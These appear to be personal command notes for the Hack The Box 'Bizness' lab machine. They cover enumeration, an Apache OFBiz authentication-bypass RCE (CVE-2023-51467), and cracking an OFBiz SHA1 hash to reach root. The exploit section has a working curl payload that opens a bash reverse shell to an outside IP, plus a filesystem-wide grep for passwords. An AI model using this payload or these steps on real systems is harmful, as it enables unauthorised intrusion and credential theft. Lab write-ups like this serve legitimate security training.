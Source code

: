 # 🧾 HTB: Bizness - Command Notes

## 🔍 Enumeration

```bash
nmap -p- -T4 10.10.11.X
```

> Port 80 was open and used for further exploitation.

---

## 🗂️ Hosts File Update

```bash
sudo nano /etc/hosts
```

Add:

```text
10.10.11.X  bizness.htb
```

---

## 🕵️ Directory Enumeration

```bash
dirsearch -u http://bizness.htb
```

> Revealed `/control/login` and other routes.

---

## 🔐 Authentication Discovery

> Manual testing in browser showed:
- `"admin"` = valid username
- gibberish usernames = `"User does not exist"`

---

## 💥 Initial Foothold - Apache OfBiz RCE (CVE-2023-51467)

### Payload (Groovy Sandbox RCE):

```bash
curl -kv -H "Host: bizness.htb:443" \
-d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >& /dev/tcp/10.10.16.98/1234 0>&1;';x.execute();" \
"https://bizness.htb:443/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

> `bash reverse shell` sent via vulnerable Groovy context.  
> `curl` is used since `wget` is blocked.

---

## 📞 Set Up Listener

```bash
nc -lvnp 1234
```

---

## 🧑‍💻 Gained Shell as `ofbiz`

```bash
whoami
cat /etc/passwd
ls /home
cat user.txt
```

---

## ⬆️ Privilege Escalation

### 🔎 Grep for Passwords

```bash
grep -arin -o -E '(\w+\W+){0,5}Password(\w+\W+){0,5}' /
```

> Discovered:
- `Adminuserlogindata.xml`
- `c54d0.dat` (contains salted SHA1 hash)

---

## 🔓 Crack OfBiz SHA1 Password

### Clone Cracker Tool

```bash
git clone https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
cd Apache-OFBiz-SHA1-Cracker
```

### Use RockYou Wordlist

```bash
python3 crack.py -w /usr/share/wordlists/rockyou.txt -H <hash>
```

> Recovered password: `monkeybizness`

---

## 🔐 SSH as Root

```bash
ssh root@bizness.htb
```

> Used cracked password from the OfBiz hash.

---

## 🏁 Get Root Flag

```bash
cat /root/root.txt
```